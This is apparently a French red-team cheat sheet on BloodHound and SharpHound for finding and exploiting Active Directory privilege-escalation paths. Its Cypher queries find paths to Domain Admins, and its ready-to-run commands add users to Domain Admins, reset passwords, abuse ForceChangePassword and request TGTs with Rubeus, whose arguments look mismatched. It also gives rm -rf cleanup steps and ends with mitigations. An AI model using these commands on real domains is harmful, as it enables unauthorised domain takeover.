

L'analyse des relations Active Directory via **BloodHound** permet de cartographier les vecteurs d'attaque et d'identifier les chemins d'escalade de privilèges au sein d'un domaine.



## Installation et configuration de SharpHound

**SharpHound** est l'outil de collecte de données officiel. Il est recommandé d'utiliser la version C# pour une meilleure discrétion et performance.

```bash
# Téléchargement et exécution rapide
.\SharpHound.exe -c All --zipfilename loot.zip

# Collecte ciblée pour éviter le bruit réseau
.\SharpHound.exe -c DCOnly,Session,LoggedOn --domain domain.local
```

[!tip]
Utilisez l'option `-c All` pour une énumération complète, mais soyez conscient que cela génère un trafic réseau significatif pouvant être détecté par les solutions de surveillance (IDS/EDR).

## Ingestion des données dans BloodHound

Une fois les données collectées (fichiers `.json` ou `.zip`), elles doivent être importées dans l'interface graphique de **BloodHound**.

1.  Lancer l'interface BloodHound.
2.  Cliquer sur l'onglet **Upload Data**.
3.  Sélectionner les fichiers générés par **SharpHound**.
4.  Attendre la fin du traitement des relations (le temps dépend de la taille de l'annuaire).

## Gestion des bases de données (Neo4j)

**BloodHound** s'appuie sur **Neo4j** pour stocker et requêter le graphe.

```bash
# Démarrage du service Neo4j
sudo neo4j start

# Accès à la console de gestion (par défaut)
http://localhost:7474
```

[!warning]
Assurez-vous que les identifiants par défaut de **Neo4j** (`neo4j:neo4j`) ont été modifiés lors de la première configuration pour garantir la sécurité de votre base de données locale.

## Utilisation de l'interface graphique vs requêtes manuelles

L'interface graphique permet une exploration visuelle via les "Pre-built Queries", tandis que le panneau **Raw Query** permet d'exécuter des requêtes **Cypher** personnalisées pour des recherches avancées.

| Méthode | Usage |
| :--- | :--- |
| **Interface Graphique** | Exploration rapide, visualisation des chemins, analyse de nœuds spécifiques. |
| **Requêtes Cypher** | Automatisation, recherche de patterns complexes, filtrage précis sur des attributs. |

## Nettoyage des données collectées

Il est impératif de supprimer les données sensibles collectées après la fin de la mission pour respecter les règles de confidentialité.

```bash
# Suppression sécurisée des fichiers de collecte
shred -u loot.zip
# Nettoyage de la base de données Neo4j via l'interface ou en supprimant le dossier de données
rm -rf /var/lib/neo4j/data/databases/graph.db/*
```

## Recherche de Comptes à Hauts Privilèges

Les requêtes **Cypher** permettent d'identifier les vecteurs d'accès aux groupes sensibles.

| Objectif | Requête Cypher |
| :--- | :--- |
| Administrateurs du domaine | `MATCH (n:Group) WHERE n.name="DOMAIN ADMINS@domain.local" RETURN n` |
| Administrateurs locaux | `MATCH (c:Computer)<-[:AdminTo]-(u) RETURN c.name, u.name` |
| Droits élevés multiples | `MATCH (n:User)-[r:AdminTo\|HasSession]->(m:Computer) RETURN n,m` |
| Chemins vers Domain Admins | `MATCH p=shortestPath((u:User)-[r:AdminTo\|MemberOf*1..]->(g:Group {name:"DOMAIN ADMINS@domain.local"})) RETURN p` |

## Recherche d'Escalade de Privilèges

L'analyse des permissions **ACL** est cruciale pour identifier les vecteurs d'escalade.

*   **GenericAll** : `MATCH p=(n:User)-[r:GenericAll]->(m) RETURN p`
*   **WriteDACL** : `MATCH p=(n:User {name:"target@domain.local"})-[r:WriteDACL]->(m) RETURN p`
*   **WriteOwner** : `MATCH p=(n:User {name:"target@domain.local"})-[r:WriteOwner]->(m) RETURN p`
*   **AddMember** : `MATCH p=(n:User)-[r:AddMember]->(m:Group) WHERE m.name="DOMAIN ADMINS@domain.local" RETURN p`
*   **ForceChangePassword** : `MATCH p=(n:User)-[r:ForceChangePassword]->(m) RETURN p`

> [!warning]
> La précision des noms de domaine dans les requêtes **Cypher** est impérative pour éviter des résultats erronés.

## Enumération des Sessions et des Mouvements Latéraux

L'analyse des sessions est liée aux techniques de **Lateral Movement Techniques**.

*   Sessions actives : `MATCH (n:User)-[r:HasSession]->(m:Computer) RETURN n,m`
*   Chemins vers sessions : `MATCH p=shortestPath((u:User)-[r:AdminTo\|HasSession*1..]->(m:Computer)) RETURN p`
*   Sessions sur machine cible : `MATCH (u:User)-[r:HasSession]->(c:Computer) WHERE c.name="DC01.domain.local" RETURN u`

> [!note]
> La présence d'une session active (**HasSession**) est souvent un prérequis pour certains mouvements latéraux.

## Délégation Kerberos et Attaques TGT/TGS

Ces vecteurs sont détaillés dans les notes sur **Kerberos Attacks**.

*   **TrustedToAuthForDelegation** : `MATCH p=(n:User)-[r:TrustedToAuthForDelegation]->(m) RETURN p`
*   **Unconstrained Delegation** : `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
*   **AllowedToDelegate** : `MATCH p=(n:User)-[r:AllowedToDelegate]->(m) RETURN p`

## Analyse des ACL

*   **AllExtendedRights** : `MATCH p=(n:User)-[r:AllExtendedRights]->(m) RETURN p`
*   **GenericWrite** : `MATCH p=(n:User)-[r:GenericWrite]->(m) RETURN p`
*   **GPO Modification** : `MATCH p=(n:User)-[r:Owns]->(m:GPO) RETURN p`

## Recherche Automatique de Chemins d'Attaque

*   Vers Domain Admins : `MATCH p=shortestPath((n:User)-[*1..]->(m:Group {name:"DOMAIN ADMINS@domain.local"})) RETURN p`
*   Vers comptes sensibles : `MATCH p=allShortestPaths((n:User)-[*1..]->(m:User {highvalue:true})) RETURN p`
*   Vers Enterprise Admins : `MATCH p=allShortestPaths((n:User)-[*1..]->(m:Group {name:"ENTERPRISE ADMINS@domain.local"})) RETURN p`

> [!warning]
> Attention aux faux positifs dans les chemins d'attaque longs qui peuvent être théoriquement valides mais pratiquement inexploitables.

## Exploitation Post-Enumeration

Une fois le chemin identifié, l'exploitation peut varier selon les droits obtenus.

### Prise de contrôle via GenericAll
*   Ajout au groupe : `Add-ADGroupMember -Identity "Domain Admins" -Members target_user`
*   Réinitialisation de mot de passe : `Set-ADAccountPassword target_user -NewPassword "NewPass123!"`

### Manipulation d'objets
*   Modification d'Owner : `Set-ADUser target_user -Owner attacker_user`
*   ForceChangePassword : `rpcclient -U "attacker" target_DC -c "setuserinfo2 target_user 23 NewPassword!"`

### Récupération de TGT
*   Utilisation de **Rubeus** : `Rubeus tgtdeleg /user:target_user /rc4:NTLM_HASH`

> [!danger]
> L'utilisation de **Rubeus** présente un risque élevé de détection par les solutions EDR.

## Meilleures Pratiques pour l'Analyse

*   Analyser les groupes critiques : "Domain Admins", "Enterprise Admins", "Administrators", "Account Operators".
*   Vérifier les objets modifiables : `MATCH (n:User)-[r:WriteDACL\|Owns\|GenericAll]->(m) RETURN n,m`.
*   Prioriser les chemins les plus courts pour l'escalade de privilèges (**Privilege Escalation in AD**).

## Sécurité et Mitigation

*   Restreindre les permissions excessives sur les objets AD.
*   Activer la journalisation des modifications ACL.
*   Désactiver les délégations non sécurisées (**Unconstrained Delegation**).
*   Restreindre les permissions sur les GPO critiques.
*   Déployer **LAPS** pour limiter l'escalade via les comptes locaux.
*   Auditer régulièrement les sessions ouvertes sur les systèmes sensibles.